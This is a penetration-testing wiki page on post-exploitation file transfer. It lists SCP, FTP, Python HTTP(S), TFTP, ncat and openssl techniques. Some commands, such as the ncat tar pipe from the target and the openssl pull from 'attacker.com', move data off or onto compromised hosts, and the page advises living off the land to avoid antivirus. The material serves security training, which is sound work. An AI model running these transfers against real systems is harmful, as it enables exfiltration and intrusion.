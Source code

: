 # File Transfers

Some methods are destructive and should be used with caution. All Post Exploitation binaries and scripts use should be documented to aid in cleaning up after engagement. 

1. For stealth and professionalism they could be found revealing foothold and potential abused for malicious individuals. Documenting each upload helps keep a inventory of use where and how, networks can get very large and it not ideal to have to traverse the entire network to remove one file you forgot to document and missed in cleaning up.
2. Antivirus scans endpoint file systems in search of pre-defined file signatures which are mapped from open/closed source tools in wide use from open resources like [Virus Total](https://www.virustotal.com/gui/home/upload). AV should alert System Administrators and will quarantine any offending binaries or scripts.

Therefore its best practice to live off the land as regards to Post Exploitation only until a tool is needed to bypass or escalate further. For Shell related information see [[Shells]] and [[Reverse-Shells-Listing]] for various reverse shells and place to find more. For [[Windows-File-Transfers]] or [[Linux-File-Transfers]] follow the link the remainder of this article will include hosting methods

Sometime you do not have `curl` and `wget` or want to use either. 

## SCP

```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```


## PureFTPd
```bash
sudo apt install pure-ftpd
```

Setup script 
```bash
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

## Python

Unencrypted File transfer
```bash
python3 -m http.server $port
python -m SimpleHTTPServer $port
```

Encrypted File transfer 
```bash
# Create SSL certificate
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```
Run a python HTTPS server
```python
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```


## TFTP Upload Server for Data Exfiltration

Install, contain with a directory  and run a TFTP server.
```bash
apt install atftp
mkdir /tftp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```


## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Openssl

Openssl is widely used for certificate and key handling 
```bash
# Create key and server to host a $file
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < $file_to_send
# Victim 
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
```
[From GTFObins](https://gtfobins.github.io/gtfobins/openssl/#file-download)



## References

[cheat](https://github.com/cheat/cheatsheets/blob/master/scp)
[GTFObins](https://gtfobins.github.io/gtfobins/openssl/#file-download)